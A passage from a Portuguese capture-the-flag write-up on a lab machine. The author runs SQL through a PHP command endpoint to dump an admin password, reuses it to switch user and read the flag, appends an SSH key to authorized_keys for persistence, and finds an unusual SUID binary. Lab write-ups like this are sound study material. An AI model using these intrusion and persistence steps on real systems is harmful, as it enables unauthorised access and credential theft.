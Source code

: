 Não me importava com nome de variáveis e boas práticas de programação. O importante era que o negócio funcionava. Pude comprovar quando fiz a seguinte requisição: http://10.10.10.185/ratf.php?cmd=select%20*%20from%20login; e vi o resultado:

```
select * from login;stdClass Object
(
    [id] => 1
    [username] => admin
    [password] => Th3s3usW4sK1ng
)
```

Sabia da existência da tabela de login porque tinha visto o código da página de login. Rodei outros comandos sql para verificar se existia mais alguma outra tabela mas era só isso mesmo. Aquele password para o usuário admin podia ser o de theseus.

E era mesmo:

```
www-data@ubuntu:/$ su -l theseus
su -l theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ cat user.txt	
cat user.txt
031df804509ddfca08c3b4a085f41f63
```

Assim que virei theseus, voltei meus olhos para aquele servidor ssh. Queria uma shellzinha com auto-complete e tal. Botei minha chave ssh nas authorized_keys de theseus e fiquei mais feliz.

```
theseus@ubuntu:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADABABAAABAQDDVokf8pKi0W1dRUl4Ddaz/No//FNwFf4167jNBFin7zu1dKAKi2kkVqNkhw2tWBIvVUwiSZdasdjfklxjczlkj3w4pdkpfx-0zcvizjçsafs0s8HQMLy72HQ5eio8vDpmZvJJ5pRGd0PApERCOzX8cm5k5AyI5QJY/1lXMlYATA8xbqLTVuQm2gO7SypdotQWLMQWM1LG8Ypqakjf7xZ39QUs5+e9iJ++VmII8+G7j8VwLdj4tGuoRjQgwE8st0iMXt+z,xmcarlkasdfamaera brenno@nasa" >> /home/theseus/.ssh/authorized_keys
```

Logando via ssh, comecei a procurar formas de virar root. Dei uma olhada nos arquivos do usuário, processos rodando, bla bla bla. Me rendi e rodei um script, o famosinho linuxprivchecker. O único detalhe foi que tive que correr atrás de uma versão que rodasse em python3, pois na máquina não havia o 2.x. Não foi dificil de encontrar: [https://github.com/swarley7/linuxprivchecker/blob/master/linuxprivchecker.py](https://github.com/swarley7/linuxprivchecker/blob/master/linuxprivchecker.py)

Esses scripts geram um monte de coisa e é fácil de se perder quando o cara não sabe onde olhar. O que, algumas vezes, é o meu caso. Não vi nem de primeira, nem de segunda, e passou batido até numa terceira olhada. Mas depois de um longo período, percebi que havia um binário SUID como root que não era padrão. Era o arquivo: /bin/sysinfo

Acredito que se exige prática pra poder enxergar rápido esses detalhes. O nome não havia chamado minha atenção porque me parecia ser do sistema, sysinfo. Tive que filtrar e comparar com os do meu sistema para perceber que havia algo fora de linha.
Rodando o sysinfo percebi que ele busca e imprime um monte de informações do sistema, tipo assim:

```
====================Hardware Info====================
blablablabla
====================Disk Info====================
blablablalba
====================CPU Info====================
blablablabla
====================MEM Usage=====================
blablabla
```

